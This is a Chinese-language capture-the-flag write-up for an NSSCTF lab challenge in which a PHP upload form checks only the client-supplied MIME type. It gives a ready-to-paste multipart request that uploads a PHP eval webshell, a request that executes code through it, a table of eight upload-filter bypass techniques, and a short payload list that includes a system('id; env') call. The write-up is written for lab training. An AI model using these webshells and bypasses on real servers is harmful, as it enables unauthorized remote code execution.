



# NSSCTF · 文件上传 easyupload1.0（up10ad来康康）—— Writeup

> 分类：Web（文件上传 / MIME 校验绕过）
> 环境：`Apache/2.4.7 (Ubuntu)` + `PHP/5.5.9-1ubuntu4.14`
> 入口：`http://<host>:27667/` → 表单 `action="upload.php"`，文件字段 `uploaded`，按钮 `submit=GoGoGo!`
> 做题日期：2026-10-23
> Flag：`NSSCTF{38ee8558-8ff8-49a3-9569-c1e38f0ca06e}`（动态靶机，重开会变）

---

## 30 秒速查卡

**本题只校验客户端 `Content-Type`，完全不校验后缀。**

```
看到上传框
  ↓
传 .php            → "想啥呢！"      卡住了
传 .jpg            → 成功
  ↓
抓包，只改一处：文件段的 filename 改成 aaa.php，Content-Type 保持 image/jpeg
  ↓
访问 /upload/aaa.php → 200 空白 = 木马执行了
  ↓
POST d=phpinfo();  → Ctrl+F 搜 NSSCTF{   （在 Environment 表）
```

关键一行：「请求头里那个 `multipart/form-data; boundary=...` **绝对不能动**；要改的是**文件段下面**那行 `Content-Type`。」

## 1. 现象与判题

首页一个上传表单。先做四问：

| # | 问题 | 怎么测 | 本题结论 |
|---|---|---|---|
| 1 | 前端还是后端拦？ | 看源码有无 `onchange`/`alert`，禁用 JS 再传 | 后端 |
| 2 | 后缀黑名单还是白名单？ | 传 `.php` / `.jpg` 各一次 | `.php` 挂、`.jpg` 过 |
| 3 | 查不查 MIME？ | 抓包把文件段 `Content-Type` 改成 `image/jpeg` | **过了 → 只信客户端 MIME** |
| 4 | 查不查文件头？ | 内容前加 `GIF89a` | 不需要 |

**一次只改一个变量**，改完立刻看响应——这是上传题最重要的纪律。

## 2. 实测矩阵（这台靶机的真实数据）



| 文件名 | 文件段 Content-Type | 上传结果 | 能否执行 |
|---|---|---|---|
| `shell.jpg` | `image/jpeg` | ✅ 成功 | （非 PHP） |
| `shell.php` | `application/octet-stream` | ❌ 想啥呢！ | — |
| `shell.php` | `image/jpeg` | ✅ 成功 | ✅ 能执行 |
| `x.jpg` | `text/plain` | ❌ 想啥呢！ | — |
| `.htaccess` | `text/plain` | ❌ 想啥呢！ | — |
| `a.phtml` / `b.php5` / `c.pht` / `d.php3` | `image/jpeg` | ✅ 全成功 | ✅ 全都能执行 |
| `e.Php` | `image/jpeg` | ✅ 成功 | ❌ 直接吐源码 |

从这 7 行能反推出后端大致是：

```php
if (!in_array($_FILES['uploaded']['type'], ['image/jpeg','image/png','image/gif']))
    die('想啥呢！');
```

`$_FILES['type']` 是 **HTTP 请求里客户端自己填的值**，服务端没验证过——这就是 MIME 绕过 的本质。

> 注意 `e.Php`：上传成功但不执行。说明 Apache 的 `FilesMatch` **区分大小写**。

## 3. 完整攻击链

### 3.1 上传请求（Burp Repeater 可直接粘）



```http
POST /upload.php HTTP/1.1
Host: node7.anna.nssctf.cn:27667
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAAAABBBBCCCC
Content-Length: 298
Connection: close

------WebKitFormBoundaryAAAABBBBCCCC
Content-Disposition: form-data; name="uploaded"; filename="aaa.php"
Content-Type: image/jpeg

<?php @eval($_POST['d']);?>
------WebKitFormBoundaryAAAABBBBCCCC
Content-Disposition: form-data; name="submit"

GoGoGo!
------WebKitFormBoundaryAAAABBBBCCCC--
```

三个要点：

1. 请求里**有两个 `Content-Type`**：请求头那个 `multipart/form-data; boundary=...` 绝对不能动；要改的是**文件段下面**那一行。
2. `Content-Length` 改任何字符都要重算 → 勾上 Burp 的「更新 Content-Length」。
3. 最后一行必须以 `--` 结尾，丢了会变成"什么都没传"，靶机回 `什么都不传就想白给f1ag??`。

成功响应：

```
<meta charset="utf-8">./upload/aaa.php succesfully uploaded!
```

（原文少一个 `l`，是靶机的固定拼写，正好用来判断处于哪一步）

### 3.2 执行命令

```http
POST /upload/aaa.php HTTP/1.1
Host: node7.anna.nssctf.cn:27667
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

d=phpinfo();
```

- `d` = 写进木马的字段名
- `d=phpinfo();` 是 **12 字节**（不是 15）
- 成功 → 响应 ≈ 79 KB，Ctrl+F 搜 `NSSCTF{`

### 3.3 flag 在哪



```
Environment 表
FLAG    NSSCTF{38ee8558-8ff8-49a3-9569-c1e38f0ca06e}
```

> **容器题的 flag 90% 在环境变量里**，不在文件系统。
> 找 flag 的顺序：`phpinfo()` 的 Environment → `env` → `ls /` → `/flag` → 站点根目录 → 最后才 `find /`。

## 4. 响应判读表（照查，别猜）

| 现象 | 真正含义 | 处理 |
|---|---|---|
| 响应区完全空白（无状态行） | **没点「发送」** | 点发送 / Ctrl+Enter |
| 一直转圈后超时 | `Content-Length` ≠ 实际 body 长度 | 改成实际字节 / 勾「更新」 |
| 无法连接 | 容器被回收 | 回题目页重开环境 |
| `Connection reset` / `HTTP=000` | 请求太密被限速 | 停 5–10 秒再发 |
| `404` | 路径/文件名错 | 打开 `/upload/` 目录列表核对 |
| `200` + **0 字节** | 木马执行了但没输出 | 密码不对；改传 `<?php phpinfo();?>` |
| `200` + **79 KB** | ✅ phpinfo 出来了 | 搜 `NSSCTF{` |
| `500` + 空白 | 代码语法错 + `display_errors=off` | 重传正确内容 |

## 5. 八种绕过手段（按性价比排序）

| 顺序 | 手段 | 做法 | 适用 |
|---|---|---|---|
| 1 | 直传 `.php` | 无校验时最省事 | 无校验 |
| 2 | **改 filename** | 传 `x.jpg`（MIME 白送），包里把 `filename` 改成 `x.php` | **本题解法** |
| 3 | **改 Content-Type** | `octet-stream` → `image/jpeg` | 只查 `$_FILES['type']` 通杀 |
| 4 | 换后缀 | `.phtml` `.php5` `.pht` `.php3` `.php4` | 黑名单没写全（本靶机全都能执行） |
| 5 | 文件头伪造 | 开头加 `GIF89a` 再跟 `<?php` | 用了 `getimagesize()` |
| 6 | 大小写 / 特殊字符 | `.Php`、`.php.`、`.php::$DATA` | 视配置（本靶机 `.Php` 不执行） |
| 7 | `.htaccess` | 内容 `AddType application/x-httpd-php .jpg` | 需 Apache + `AllowOverride` |
| 8 | 解析漏洞 | `1.php.jpg`、`1.jpg/.php`、`1.jpg;.php` | 老版本 Apache/PHP |

## 6. Burp 操作规范（这题真正花时间的地方）

| 状态 | 浏览器表现 | 什么时候用 |
|---|---|---|
| 拦截关闭（默认） | 正常上网 | 99% 的时间 |
| 拦截开启 | 每请求都卡住，页面转圈 | 只在"要抓这一条"的几秒内 |

三条铁律：

1. 平时关、抓时开、抓到就转 Repeater，转完立刻关（门开着的总时长 < 10 秒）。
2. **先让页面加载完，再开拦截**（否则几十个 js/css 请求要你一个个点"转发"）。
3. Repeater 的「发送」**不受拦截开关影响**。

最省事的打法：

```
拦截一直关 → 正常上传一次 x.jpg（成功）
→ 代理 → HTTP 历史记录 → 找到那条 POST /upload.php
→ 右键「发送到 Repeater」→ 改包 → 发送
```

## 7. 踩坑记录（都是真实踩过的）

| 坑 | 表现 | 教训 |
|---|---|---|
| `Content-Length` 手数错（写 15，实际 12） | 点发送一直转圈 | **永远勾「更新 Content-Length」** |
| 忘了点「发送」 | 响应区全空 | Repeater 是手动的，没状态行 = 没发 |
| 改了 filename 没改对 Content-Type | 仍然 `想啥呢！` | 两个 Content-Type，改**文件段**那个 |
| 把请求头的 `multipart/form-data; boundary=...` 改成 `image/jpeg` | `什么都不传就想白给f1ag??` | boundary 不能动 |
| 环境重建后还用旧端口 | 无法连接 | 端口和 `Host` 头必须同步改 |
| 连续狂发请求 | `HTTP=000` | 不是 WAF，是限速，停 5–10 秒 |
| 蚁剑连上发现 flag 文件是假的 | — | 真 flag 在环境变量，`phpinfo()`/`env` 才看得到 |

## 8. 现场检查清单

```
□ 首页能打开吗？（不能 → 环境没起来）
□ 传 .php 提示什么？传 .jpg 成功吗？
□ 我改的是「文件段」的 Content-Type 吗？（不是请求头那个）
□ 勾了「更新 Content-Length」吗？
□ 点「发送」了吗？响应第一行是 HTTP/1.1 吗？
□ /upload/aaa.php 是 200 空白 / 200 大页面 / 404 / 500？
□ 搜 NSSCTF{ 了吗？（Environment 表）
□ flag 截图存了吗？（容器过期就没了）
```

## 9. 常用 payload

```php
<?php @eval($_POST['d']);?>                 // 一句话木马，密码 d
<?php phpinfo();?>                           // 直接看环境变量，最省事
<?php echo "<pre>"; system("id; env"); echo "</pre>";?>
```

```
# 一句话调用（urlencoded，注意长度 12）
d=phpinfo();
```
